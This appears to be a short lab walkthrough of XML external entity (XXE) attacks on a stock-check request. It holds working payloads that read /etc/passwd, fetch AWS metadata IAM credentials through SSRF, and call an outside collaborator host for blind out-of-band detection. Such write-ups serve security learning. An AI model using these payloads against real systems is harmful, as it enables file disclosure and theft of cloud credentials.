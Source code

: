 ## XXE using external entities to retrieve files
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>
</productId><storeId>1</storeId></stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
+ Result :
![xml](./img/xml.png)

## Exploiting XXE to perform SSRF attacks
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Result

![sml2](./img/xml2.png)

## Blind XXE with out-of-band interaction
+ Create buup collaborator 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>13</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://v0wkda9pdo2k1tbpgvnyzak8azgq4gs5.oastify.com"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

+ Result :
![xml3](./img/xml3.png)